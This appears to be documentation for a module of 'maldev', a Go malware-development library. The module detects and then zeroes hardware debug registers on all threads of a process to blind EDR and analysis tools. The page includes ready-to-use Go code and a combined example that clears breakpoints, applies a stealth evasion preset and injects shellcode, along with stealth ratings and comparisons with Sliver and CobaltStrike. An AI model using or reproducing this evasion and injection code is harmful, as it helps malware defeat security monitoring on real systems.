

# Hardware Breakpoint Detection and Clearing

> **MITRE ATT&CK:** T1622 -- Debugger Evasion | **D3FEND:** D3-DICA -- Debug Instruction/Command Analysis | **Detection:** Low

## Primer

Some security systems use invisible tripwires instead of visible ones. Whereas a software hook modifies the code itself (and can be detected by checking the code bytes), a hardware breakpoint uses the CPU's built-in debug registers to monitor specific memory addresses without modifying any code. When the CPU executes an instruction at a watched address, it triggers a debug exception that the security tool catches.

The x86/x64 CPU has four debug address registers (DR0-DR3) that can each watch one address. DR6 records which breakpoint fired, and DR7 controls which breakpoints are enabled. EDR products and analysis tools set hardware breakpoints on sensitive functions (like `NtAllocateVirtualMemory` or `AmsiScanBuffer`) to intercept calls without leaving any visible hooks in the code.

This technique detects and clears hardware breakpoints on all threads in the current process. Detection checks DR0-DR3 for non-zero addresses with corresponding DR7 enable bits. Clearing zeroes all debug registers (DR0-DR7) on every thread, removing all hardware breakpoints.

## How It Works



**Detection flow:**

1. **Enumerate threads** -- `CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD)` to find all threads belonging to the current process.
2. **Read debug registers** -- For each thread, `OpenThread` with `THREAD_GET_CONTEXT`, then `GetThreadContext` with `CONTEXT_DEBUG_REGISTERS`.
3. **Check enables** -- For each DR (0-3), check if the address is non-zero AND the corresponding DR7 enable bit (L0/L1/L2/L3) is set.
4. **Report** -- Return a list of `Breakpoint` structs with register index, watched address, and thread ID.

**Clearing flow:**

1. Same thread enumeration.
2. For each thread, `OpenThread` with `THREAD_GET_CONTEXT | THREAD_SET_CONTEXT`.
3. Read context, zero all DR registers (DR0-DR7), write context back.

## Usage

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/evasion/hwbp"
)

func main() {
    // Detect hardware breakpoints on the current thread.
    bps, err := hwbp.Detect()
    if err != nil {
        log.Fatal(err)
    }
    for _, bp := range bps {
        fmt.Printf("DR%d watching 0x%X on thread %d\n",
            bp.Register, bp.Address, bp.ThreadID)
    }

    // Detect on ALL threads in the process.
    allBPs, err := hwbp.DetectAll()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("Found %d hardware breakpoints\n", len(allBPs))

    // Clear all hardware breakpoints on all threads.
    cleared, err := hwbp.ClearAll()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Printf("Cleared breakpoints on %d threads\n", cleared)
}
```

## Combined Example

```go
package main

import (
    "log"
    "os"

    "github.com/oioio-space/maldev/evasion/hwbp"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Check for hardware breakpoints -- sign of active analysis.
    bps, _ := hwbp.DetectAll()
    if len(bps) > 0 {
        log.Printf("WARNING: %d hardware breakpoints detected, clearing...", len(bps))
        hwbp.ClearAll()
    }

    // 2. Apply evasion.
    evasion.ApplyAll(preset.Stealth(), nil)

    // 3. Inject.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | High -- reading/clearing debug registers is a normal debugging operation. No memory patches required. |
| Detection scope | All four hardware breakpoints (DR0-DR3) on all threads in the process. |
| Thread coverage | `DetectAll` and `ClearAll` enumerate every thread via Toolhelp32. |
| Clearing completeness | Zeroes DR0-DR7 including DR6 (status) and DR7 (control). |
| Limitations | Requires `THREAD_GET_CONTEXT` / `THREAD_SET_CONTEXT` access on each thread. Cannot detect kernel-mode debug breakpoints. New threads created after clearing may get new breakpoints from EDR. |
| Race condition | EDR may re-set breakpoints after clearing. Consider clearing immediately before the sensitive operation. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| Detection (read DRs) | Yes | No | No | No |
| Clear all threads | Yes | No | No | No |
| Single-thread detect | `Detect()` | N/A | N/A | N/A |
| Breakpoint details | Register, address, thread ID | N/A | N/A | N/A |
| Thread enumeration | Toolhelp32 snapshot | N/A | N/A | N/A |

## API Reference

```go
// Breakpoint describes a hardware breakpoint.
type Breakpoint struct {
    Register int     // DR index (0-3)
    Address  uintptr // Address being monitored
    ThreadID uint32  // Thread with the breakpoint
}

// Detect reads debug registers of the current thread.
func Detect() ([]Breakpoint, error)

// DetectAll checks all threads in the current process.
func DetectAll() ([]Breakpoint, error)

// ClearAll clears hardware breakpoints on all threads.
// Returns the number of threads modified.
func ClearAll() (int, error)
```
